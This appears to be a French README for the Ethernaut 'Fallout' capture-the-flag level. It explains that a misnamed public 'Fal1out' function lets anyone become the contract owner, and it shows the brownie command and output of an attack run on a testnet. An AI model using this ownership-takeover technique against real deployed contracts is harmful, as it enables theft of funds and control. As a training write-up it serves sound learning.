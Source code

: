 # Fallout

## Objectif
L'objectif de ce challenge est de devenir le owner du contrat.


## Devenir owner
A la lecture du contrat, la seule possibilité de devenir `owner` est à la [ligne 13](contracts/fallout.sol#L13)

Contrairement à d'autres langages orienté objet, le constructeur d'un contrat est une méthode utilisant le mot clé `constructor`.
Pour éviter des erreurs, le langage ne permet qu'une méthode ait le même nom que le contrat.

Ici le code soure compile car la fonction est nommée `Fal1out` et non `Fallout`.

La méthode `Fal1out` est `public`, il est donc possible de l'appeller pour devenir `owner` du contrat.


## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run attack main "0x2fbc9Eb61E4077309a6D90eb33ec96115b91E873" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

FalloutProject is the active project.

Running 'scripts/attack.py::main'...
Owner is hacker: False
Transaction sent: 0xbcf611eb96d41cc73b0ac010f362b67579ea5c2ff9fd440f205f6c4570a852b1
  Gas price: 1.00000001 gwei   Gas limit: 50442   Nonce: 199
  Transaction confirmed   Block: 10190759   Gas used: 45767 (90.73%)

Owner is hacker: True
```





